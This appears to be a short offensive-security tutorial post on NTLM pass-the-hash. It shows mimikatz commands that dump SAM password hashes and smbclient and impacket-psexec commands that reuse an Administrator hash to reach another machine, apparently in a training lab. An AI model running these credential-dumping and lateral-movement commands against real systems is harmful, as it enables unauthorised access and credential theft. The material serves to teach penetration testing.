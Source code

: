 ```yaml
---
layout: post
title: NTLM Pass the Hash
titledate: 09/12/23
tags: ["infosec","offsec", "password", "mimikatz", "ntlm"]
---
```


#### Pass the Hash

sometimes we may not be able to crack the ntlm hash

in this case we can use the hash to gain access via other methods

in the following example we have gained access to machine1 and obtained user1 creds

now we want to see if we can grab the Administrator NTLM hash and leverage it to gain access to machine2

in the case that the Administrator has the same password for both machines this will work

so to grab the Admin NTLM we follow the steps in the previous post 

    $ mimikatz.exe

    mimikatz# privilege::debug

    mimikatz# token::elevate

    mimikatz# lsadump::sam

once we have the hash we can then leverage a multitude of tools that take NTLM hash in an attempt to gain access

#### smbclient

    $ smbclient \\\\192.168.50.212\\share1 -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

#### impacket

hwere we use impacket that contains psexec, ps-exec will execute as system user, if we want to login with the hash user creds (Admin) then we would use wmiexec

    $ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.50

in the attack above we do not have the LM hash so we fill the first 32 chars with 0s and then use our NTLM hash
